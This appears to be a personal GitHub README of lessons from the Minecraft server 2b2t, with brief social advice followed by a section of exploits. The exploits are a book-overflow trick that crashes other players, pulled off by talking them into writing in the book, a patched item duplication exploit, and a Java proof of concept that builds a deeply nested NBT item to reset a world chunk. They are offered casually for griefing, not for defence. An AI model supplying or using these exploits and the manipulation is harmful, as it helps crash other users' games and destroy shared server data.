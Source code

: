 # What-Ive-Learned \[WIP]
A sum of my 2b2t experience

# People
- Treat people as humans and be honest, that goes everywhere, but just keep it in mind.

- most people are nicer than you think. give em a chance.

- Dont ask for shit, when you dont ask, people are more trusting and you come across better

# Exploits
some stuff i found or learned abt

## Book overflow
Not possible to ban. Works because you can’t send a book data packet with more than 32676 bytes of data or else it crashes, so you fill it to the brink and if someone signs or writes in it it overflows, you can get someone to do that with a social engineering prompt like that one.

## Armor dupe \[PATCHED]
https://www.youtube.com/watch?v=DKIjBQjhEJ4&t=109s
made an autodupe while it worked lol

## NBT world reset. 
only works in creative but you can artificially create an item and if it has more than 512 *nested* nbt tags you can reset the chunk its in  

POC:
```java
private ItemStack generateNBTItem() {
        try {
            ItemStack itemStack = new ItemStack(Items.STICK);
            NbtCompound rootCompound = new NbtCompound();
            NbtCompound tempCompound = rootCompound;

            // Set depth limit just above the trigger limit
            for (int i = 0; i < 516; i++) {
                NbtCompound nextCompound = new NbtCompound();
                tempCompound.put("nested" + i, nextCompound);
                tempCompound = nextCompound;
            }

            // create a deep NBTTagList to trigger the exception
            NbtList deepTagList = new NbtList();
            deepTagList.add(new NbtCompound());
            tempCompound.put("triggerList", deepTagList);

            itemStack.setNbt(rootCompound);

            return itemStack;
        } catch (Exception e) {
            e.printStackTrace();
            return null;
        }
    }
    ```



